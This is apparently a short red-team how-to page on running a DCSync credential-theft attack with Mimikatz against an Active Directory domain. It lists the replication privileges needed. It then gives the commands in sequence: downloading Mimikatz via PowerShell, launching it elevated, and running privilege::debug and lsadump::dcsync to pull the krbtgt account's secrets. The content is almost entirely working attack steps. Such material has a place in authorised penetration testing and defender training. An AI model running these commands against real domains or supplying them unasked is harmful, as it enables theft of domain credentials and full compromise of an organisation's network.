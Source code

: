 # Red Team - Performing DCSync Attack with Mimikatz

**Tool:** Mimikatz  
**Technique:** DCSync  
**MITRE ATT&CK ID:** T1003.006  
**Tactic:** Credential Access

---

## Requirements

- Valid domain user credentials with **replication privileges**
    - Domain Admin
    - Enterprise Admin
    - Or any user with `Replicating Directory Changes` & `Replicating Directory Changes All` permissions

---

## Step-by-Step Instructions

### 1. Download Mimikatz

**On Windows:**
```powershell
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip" -OutFile "mimikatz.zip"
Expand-Archive .\mimikatz.zip -DestinationPath .\mimikatz
cd .\mimikatz\x64
````
#### Open an elevated command prompt or PowerShell:
````powershell
.\mimikatz.exe
````

#### In the Mimikatz shell:
````powershell
privilege::debug
lsadump::dcsync /domain:mydomain.local /user:krbtgt
````
